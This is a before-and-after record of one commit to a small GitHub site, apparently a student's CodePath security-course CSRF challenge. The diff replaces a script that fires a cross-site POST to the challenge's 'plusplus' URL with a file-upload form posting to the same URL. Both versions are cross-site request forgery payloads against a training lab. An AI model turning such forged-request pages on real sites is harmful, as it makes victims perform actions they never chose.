

Before and after one commit to yorkyman/csrf2, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,14 +1,12 @@
-<div id="intro-button-wrapper">
-        <a href="#" "="" id=" button_codepath" onclick="codePathXss()">Click here</a>
-        <script>
-            function codePathXss() {
-                var xhr = new XMLHttpRequest();
-                var url =
-                    "https://security.codepath.com/user/csrfchallengtwo/plusplus?userid=ad322cc2118e9a99e3698aa9b6651f3fe8b3bfea"
-                xhr.open("POST", url, true);
-                xhr.setRequestHeader('Access-Control-Allow-Origin', '*');
-                xhr.send();
-                console.log("Hello World")
-            }
-        </script>
-    </div>
+<html>
+  <body>
+    <form ref='uploadForm'
+      id='uploadForm'
+      action="https://security.codepath.com/user/csrfchallengtwo/plusplus?userid=ad322cc2118e9a99e3698aa9b6651f3fe8b3bfea"
+      method='post'
+      encType="multipart/form-data">
+        <input type="file" name="sampleFile" />
+        <input type='submit' value='Upload!' />
+    </form>
+  </body>
+</html>
```
